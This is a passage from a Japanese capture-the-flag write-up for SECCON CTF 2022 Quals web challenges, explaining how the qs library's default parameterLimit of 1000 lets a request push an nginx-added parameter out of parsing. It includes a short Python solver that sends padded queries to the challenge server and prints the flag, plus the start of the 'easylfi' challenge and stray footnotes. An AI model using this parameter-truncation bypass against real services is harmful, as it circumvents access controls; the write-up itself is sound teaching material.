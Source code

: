 `parameterLimit`オプションはクエリパラメータの上限数を指定する値であり、デフォルト値は`1000`です。
実装を確認すると:
```javascript
// from: https://github.com/ljharb/qs/blob/v6.11.0/lib/parse.js#L54-L55
var limit = options.parameterLimit === Infinity ? undefined : options.parameterLimit;
var parts = cleanStr.split(options.delimiter, limit);
```
とあり、`parameterLimit`個以降のクエリパラメータをすべて無視していることがわかります[^skipinx-1]。

[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。

つまり、`1000`個以上のクエリパラメータが付いたリクエストを送ると、nginxの付与した`proxy=nginx`は無視されるようになり、bypassが可能になります。

### Solver

```python
import os
import httpx

BASE_URL = "http://skipinx.seccon.games:8080"

# ref. https://github.com/ljharb/qs/blob/v6.11.0/lib/parse.js#L21
PARAMETER_LIMIT = 1000

query = "proxy=something" + ("&"*(PARAMETER_LIMIT - 1))
res = httpx.get(f"{BASE_URL}/?{query}")
print(res.text)
```

### Flag

```
SECCON{sometimes_deFault_options_are_useful_to_bypa55}
```

## [web] easylfi

- 62 teams solved / 124 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/web/easylfi

Description:

> Can you read my secret?
>
> - `http://easylfi.seccon.games:3000`

### Overview

サーバサイド問です。

ページにアクセス:
![](/images/2022/20221118-seccon-easylfi-01.png)

`test`をsubmitすると`/hello.html?%7Bname%7D=test`に飛ばされる:
![](/images/2022/20221118-seccon-easylfi-02.png)


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。